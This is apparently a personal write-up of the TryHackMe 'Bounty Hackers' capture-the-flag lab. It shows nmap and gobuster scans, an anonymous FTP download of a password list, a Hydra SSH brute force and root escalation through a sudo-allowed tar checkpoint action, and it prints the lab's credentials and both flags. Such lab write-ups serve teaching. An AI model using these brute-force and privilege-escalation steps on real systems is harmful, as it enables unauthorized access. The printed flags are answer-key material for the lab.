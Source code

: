 ```yaml
---
title: "TryHackMe Bounty Hackers CTF"
date: 2022-11-13 17:49:00 +0100
categories: [TryHackMe, CTF]
tags: [tryhackme, ctf, hacking, kali linux, offensive]     # TAG names should always be lowercase
---
```



My Write-up of the TryHackMe CTF Bounty Hackers:

## Scan
First I start with a nmap scan. I like to use the -A (equivalent to -sV -O -sC --traceroute) flag and scan all ports (-p-):

```bash
$ nmap -A -p- 10.10.162.62 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-11-10 09:45 EST
Nmap scan report for 10.10.162.62
Host is up (0.031s latency).
Not shown: 55529 filtered tcp ports (no-response), 10003 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can´t get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.8.5.11
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn´t have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 85.33 seconds
```

3 open ports, one website on port 80, ftp and ssh.
So let´s start with the website and check it out:

![bounty hackers website](/assets/img/post-images/bounty-hackers.png)

I used gobuster for directory scanning:

```bash
$ gobuster dir -u http://10.10.162.62  -w /usr/share/wordlists/dirbuster/directory-1ist-2.3-medium.txt 
============================================================
Gobuster v3.1.0 
by OJ Reeves (@TheClonia1) & Christian Mehlmauer (@firefart)
============================================================
[+] Url:                    http://10.10.162.62 
[+] Method :                GET
[+] Threads:                10
[+] Wordlist:               /usr/share/word1ists/dirbuster/directory-1ist-2.3-medium.txt
[+] Negative Status codes:  404
[+] User Agent:             gobuster/3.1.0
[+] Timeout:                10s
============================================================
2022/11/10 09:46:37 Starting gobuster in directory enumeration mode 
============================================================
/images             (Status: 301) [Size: 313] [--> http://10.10.162.62/images/] 
Progress: 1062 / 220561 (0.48%) 
```
Even though I let it finish, I didn´t find anything of interest.

## Enumeration

So on to the next option, FTP. In the NMAP scan we saw that anonymous login is enabled, so let´s log in:
```bash
$ ftp 10.10.162.62 21
Connected to 10.10.162.62.
220 (vsFTPd 3.0.3)
Name (10.10.162.62:krussve): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
229 Entering Extended Passive Mode (|||44405|)
150 Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 Jun 07  2020 .
drwxr-xr-x    2 ftp      ftp          4096 Jun 07  2020 ..
-rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
226 Directory send OK.
ftp> get locks.txt
local: locks.txt remote: locks.txt
200 EPRT command successful. Consider using EPSV.
150 Opening BINARY mode data connection for locks.txt (418 bytes).
100% |*************************************************************************************|   418        9.82 KiB/s    00:00 ETA
226 Transfer complete.
418 bytes received in 00:00 (5.52 KiB/s)
ftp> get task.txt
local: task.txt remote: task.txt
200 EPRT command successful. Consider using EPSV.
150 Opening BINARY mode data connection for task.txt (68 bytes).
100% |*************************************************************************************|    68        1.01 KiB/s    00:00 ETA
226 Transfer complete.
68 bytes received in 00:00 (0.68 KiB/s)
ftp> 
```

Looking at the first file we have a bunch of words, which look a lot like potential passwords:
```bash
$ cat locks.txt                          
rEddrAGON
ReDdr4g0nSynd!cat3
Dr@gOn$yn9icat3
R3DDr46ONSYndIC@Te
ReddRA60N
R3dDrag0nSynd1c4te
dRa6oN5YNDiCATE
ReDDR4g0n5ynDIc4te
R3Dr4gOn2044
RedDr4gonSynd1cat3
R3dDRaG0Nsynd1c@T3
Synd1c4teDr@g0n
reddRAg0N
REddRaG0N5yNdIc47e
Dra6oN$yndIC@t3
4L1mi6H71StHeB357
rEDdragOn$ynd1c473
DrAgoN5ynD1cATE
ReDdrag0n$ynd1cate
Dr@gOn$yND1C4Te
RedDr@gonSyn9ic47e
REd$yNdIc47e
dr@goN5YNd1c@73
rEDdrAGOnSyNDiCat3
r3ddr@g0N
ReDSynd1ca7e
```

Through the second file we get a username 'lin':
```bash
$ cat task.txt 
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin
```
## Initial access
We have everything we need to try and attack SSH using hydra:
```bash
$ hydra -l lin -P locks.txt 10.10.162.62 ssh                           
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-11-10 10:02:26
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 26 login tries (l:1/p:26), ~2 tries per task
[DATA] attacking ssh://10.10.162.62:22/
[22][ssh] host: 10.10.162.62   login: lin   password: RedDr4gonSynd1cat3
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-11-10 10:02:29
```

And we´ve got: 'login: lin' and 'password: RedDr4gonSynd1cat3'. Now just login to SSH:
```bash
$ ssh lin@10.10.162.62           
The authenticity of host '10.10.162.62 (10.10.162.62)' can't be established.
ED25519 key fingerprint is SHA256:Y140oz+ukdhfyG8/c5KvqKdvm+Kl+gLSvokSys7SgPU.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.162.62' (ED25519) to the list of known hosts.
lin@10.10.162.62's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

83 packages can be updated.
0 updates are security updates.

Last login: Sun Jun  7 22:23:41 2020 from 192.168.0.14
lin@bountyhacker:~/Desktop$ ls
user.txt
lin@bountyhacker:~/Desktop$ cat user.txt
THM{CR1M3_SyNd1C4T3}
```
## Privilege Escalation
We immediately got the user flag. Now we start with privilege escalation to become root.
I usually start by checking ```sudo -l``` and got lucky.
We can abuse the tar functionality of setting checkpoints. the ```checkpoint=1```creates the checkpoint before reading the Nth record. In our case, the checkpoint is done immediately. The ```--checkpoint-action=exec=/bin/sh``` is an action done within that checkpoint. In our case, we create a shell and since the process is executed with sudo, we get root access, hurray!
So just find the root directory and then the flag.

```bash
lin@bountyhacker:~/Desktop$ sudo -l
[sudo] password for lin: 
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
lin@bountyhacker:~/Desktop$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading `/' from member names
# ls
user.txt
# whoami
Root
# cd ..
# ls
Desktop  Documents  Downloads  Music  Pictures  Public  Templates  Videos
# cd ..
# ls
lin
# cd ..
# ls
bin   cdrom  etc   initrd.img      lib    lost+found  mnt  proc  run   snap  sys  usr  vmlinuz
boot  dev    home  initrd.img.old  lib64  media       opt  root  sbin  srv   tmp  var  vmlinuz.old
# cd root
# ls
root.txt
# cat root.txt
THM{80UN7Y_h4cK3r}
```